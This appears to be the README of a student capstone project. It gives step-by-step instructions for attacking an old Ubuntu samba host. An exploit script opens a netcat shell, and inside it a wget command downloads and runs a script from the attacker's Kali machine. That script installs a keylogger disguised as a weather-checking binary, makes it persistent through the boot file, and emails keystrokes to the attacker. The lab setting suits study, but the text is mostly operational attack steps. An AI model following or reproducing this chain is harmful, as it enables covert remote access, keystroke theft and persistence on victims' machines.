 # Capstone

## Scripts
- [exploit script](exploit/exploit.sh)
- [run keylogger](exploit/run.sh)
- [add keylogger to boot file](exploit/rewriteBoot.sh)
- [keylogger](scripts/weather.py)
## Binary
[A seemingly checking weather keylogger binary](exploit/weather)
## Email
A temporary Email address is needed so that keylogger can send message back
## Virtual Machines

## Virtual Machines

### Attacker

- Linux based machine with python on it (Kali-Linux is recommended)
- Unix based machine

### Victim

- [Ubuntu 8.04 Desktop with samba installed](https://drive.google.com/file/d/1bCviB84Nn4B2H-JRrIk0tRF7tXcdrCtE/view?usp=sharing)

## How To Run

1. Turn on all three devices (both [attackers](#attacker) and [victim](#victim)). You don’t need to login [victim](#victim), but you do need to login both [Kali-Linux and Server](#attacker).
2. In the [Kali-Linux](#attacker), copy all the bash script files and binary file into the same folder

    ```bash
    > ls # should see only 4 files
    exploit.sh rewriteBoot.sh  run.sh weather
    ```

3. Start attack by:

    ```bash
    chmod +x exploit.sh # give permission
    ./exploit.sh <Target IP> <Kali-Linux IP> # run exploit script
    ```

   Give it seconds, if nothing showing after typing the command, give it another try.

4. Inside the netcat shell:

    ```bash
    wget http://<Kali-Linux IP>:8564/run.sh
    chmod +x run.sh
    ./run.sh <Kali-Linux IP> <Email Address> <Server IP>
    ```

   Terminate the process after a few second. You need to type CRTL+C twice. One for the NetCat one for the http server.